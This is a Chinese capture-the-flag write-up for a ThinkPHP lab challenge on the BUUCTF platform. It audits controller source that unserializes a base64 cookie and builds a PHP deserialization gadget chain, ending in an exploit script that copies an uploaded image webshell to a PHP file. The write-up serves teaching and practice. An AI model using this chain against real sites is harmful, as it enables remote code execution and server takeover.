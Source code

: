 靶场地址： http://d1d48598-8976-4846-b4cf-9b421ea4adac.node5.buuoj.cn:81/

1.**查看有没有什么很离谱的跟功能无关的，比如魔术方法，可能是我们的突破口**

2. 如果我们觉得我们只使用系统函数不能够的话，我们考虑能不能用他写给我们的函数。

## WP
首先，我们拿到我们的页面，我们发现一个注册和一个登录页面，这个时候，我们考虑去扫描一下我们的页面（反正也没有直接的思路）**尽可能的考虑去拿到我们的源码**

接下来，我们扫到了，存在 `www.tar.gz` 这一文件，存储了我们的对应的文件信息。这个时候下载这个压缩包，我们就能看见。
![[Pasted image 20240505171921.png]]

显然，这是一个 ThinkPHP 框架的文件，这个时候，我们需要**补充一点关于 THINKPHP 框架的知识**。

我们的 thinkphp 采用的是 MVC 架构模式，那么我们的 MVC 架构模式是什么呢？我们其中 `M->model,v->view,c->controler`

我们的用户输入数据时，会**直接与我们的 controler 进行交互**, controler 通过与 view 进行交互后，会把得到的数据映射到我们的 view 中，并回显给我们的用户。

![[Pasted image 20240505181133.png]]

在我们的**php**中，我们显然应该关注我们的 Controler 类，我们观察我们的 php，我们可以得到下面的代码，我们的代码审计结果如下：

注意到我们的常用方法以及对应的场景：
```
redirect->限制用户访问某个页面，如果访问量就直接返回
assign()->渲染我们的模板
fetch()->展示我们的模板
```

```php
<?php
namespace app\web\controller;  //示将当前文件中的代码置于 app\web\controller 这个命名空间下
use think\Controller; 
 
class Index extends Controller
{
    public $profile;  // 用户个人信息
    public $profile_db;  // 数据库中的用户资料
 
    public function index()
    {
        // 检查用户是否已登录
        if($this->login_check()){
            // 如果已登录，重定向到个人主页
            $curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/home";
            $this->redirect($curr_url,302);
            exit();
        }
        // 如果未登录，则展示首页内容
        return $this->fetch("index");
    }
 
    public function home(){
        // 检查用户是否已登录
        if(!$this->login_check()){
            // 如果未登录，重定向到首页$curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/index";
            $this->redirect($curr_url,302);  //redirect 是框架提供的一个方法，用于进行页面重定向。具体来说，它将用户重定向到指定的 URL 地址，并可以指定重定向的 HTTP 状态码，这里是302重定向到$curr_url
            exit();
        }
 
        // 检查用户是否已上传头像
        if(!$this->check_upload_img()){
            // 如果未上传头像，展示上传页面
            $this->assign("username",$this->profile_db['username']);//assign（）用于赋值
            return $this->fetch("upload");
        }else{
            // 如果已上传头像，展示个人主页
            $this->assign("img",$this->profile_db['img']);
            $this->assign("username",$this->profile_db['username']);
            return $this->fetch("home");//渲染名为 "home" 的模板，并将渲染后的结果作为响应返回
        }
    }
 
    public function login_check(){
        // 从cookie中获取用户信息
        $profile=cookie('user');
        if(!empty($profile)){
            // 解析用户信息并验证数据库中的用户资料
            $this->profile=unserialize(base64_decode($profile));
            $this->profile_db=db('user')->where("ID",intval($this->profile['ID']))->find();
            //这行代码的作用是在'user'表中，根据$this->profile['ID']的值进行条件查询,intval()将其化成整数，并将符合条件的第一条记录保存到$this->profile_db变量中。
            // 对比用户信息和数据库信息，判断用户是否已登录
            if(array_diff($this->profile_db,$this->profile)==null){
                return 1; // 已登录
            }else{
                return 0; // 未登录
            }
        }
    }
 
    public function check_upload_img(){
        // 检查用户是否已上传头像
        if(!empty($this->profile) && !empty($this->profile_db)){
            if(empty($this->profile_db['img'])){
                return 0; // 未上传头像
            }else{
                return 1; // 已上传头像
            }
        }
    }
 
    public function logout(){
        // 清除cookie中的用户信息，并重定向到首页
        cookie("user",null);
        $curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/index";
        $this->redirect($curr_url,302);
        exit();
    }
 
    // 魔术方法__get，当外部访问不存在的属性时返回空字符串
    public function __get($name)
    {
        return "";
    }
 
}
```

```php
<?php
// 声明命名空间
namespace app\web\controller;
// 引入 think\Controller 类
use think\Controller;
 
// 定义 Login 控制器，继承自 Controller 类
class Login extends Controller
{
    // 声明一个公共成员变量 $checker
    public $checker;
 
    // 构造函数，在创建 Login 对象时执行
    public function __construct()
    {
        // 实例化一个 Index 对象并赋值给 $this->checker
        $this->checker = new Index();
    }
 
    // 定义 login 方法，用于处理用户登录操作
    public function login()
    {
        // 如果 $this->checker 存在，则执行下面的操作
        if ($this->checker) {
            if ($this->checker->login_check()) {
                $curr_url = "http://" . $_SERVER['HTTP_HOST'] . $_SERVER['SCRIPT_NAME'] . "/home";
                $this->redirect($curr_url, 302);
                // 终止脚本执行
                exit();
            }
        }
 
        // 验证用户是否提交了邮箱和密码
        if (input("?post.email") && input("?post.password")) {
            // 获取用户提交的邮箱和密码
            $email = input("post.email", "", "addslashes");
            $password = input("post.password", "", "addslashes");
            // 在数据库中查找匹配邮箱的用户信息
            $user_info = db("user")->where("email", $email)->find();
            // 如果找到了用户信息
            if ($user_info) {
                if (md5($password) === $user_info['password']) {
                    $cookie_data = base64_encode(serialize($user_info));
                    cookie("user", $cookie_data, 3600);
                    $this->success('Login successful!', url('../home'));
                } else {
                    // 显示登录失败的消息，并重定向到 '../index' 路径
                    $this->error('Login failed!', url('../index'));
                }
            } else {
                // 显示邮箱未注册的消息，并重定向到 '../index' 路径
                $this->error('Email not registered!', url('../index'));
            }
        } else {
            // 显示邮箱或密码为空的消息，并重定向到 '../index' 路径
            $this->error('Email or password is null!', url('../index'));
        }
    }
}
```

1. `@copy($this->filename_tmp, $this->filename);` 这行代码调用了 PHP 的 `copy()` 函数，用于复制文件。参数 `$this->filename_tmp` 是原始文件的路径，参数 `$this->filename` 是目标文件的路径。这行代码的作用是将原始文件复制到目标文件位置。我们可以**理解为，把我们的前一个元素的值全都转移到我们的后一个元素**。
    
2. `@unlink($this->filename_tmp);` 这行代码调用了 PHP 的 `unlink()` 函数，用于删除文件。参数 `$this->filename_tmp` 是要删除的文件的路径。这行代码的作用是删除原始文件，即被复制后的临时文件。**理解为，我们把这一个元素给完全删除**。

这个时候，我们的对应的结果就是：链子为：Register 类的 checker 属性给他来个 Profile，在 Register 调用__destruct 的时候，依次调用 Profile 的 `__call->__get->upload_img`。upload_img 的第一个 if 控制属性绕过，第二个 if 不传文件就行。进入第三个 if 把事先传上去的图片马复制成 php 文件。exp 如下
```php
<?php
namespace app\web\controller;
class Register
{
    public $checker;
    public $registed=false;
    public function __construct(){
        $this->checker=new Profile();
    }
}
class Profile
{   
    public $checker=false;
    public $ext=true;
    public $filename_tmp = "./upload/cc551ab005b2e60fbdc88de809b2c4b1/249ebf7d9de9da37dff8f080629f40d3.png";
    public $filename = "./upload/shell.php";
    public $except=array('index'=>'upload_img');
}
echo urlencode(base64_encode(serialize(new Register())));
```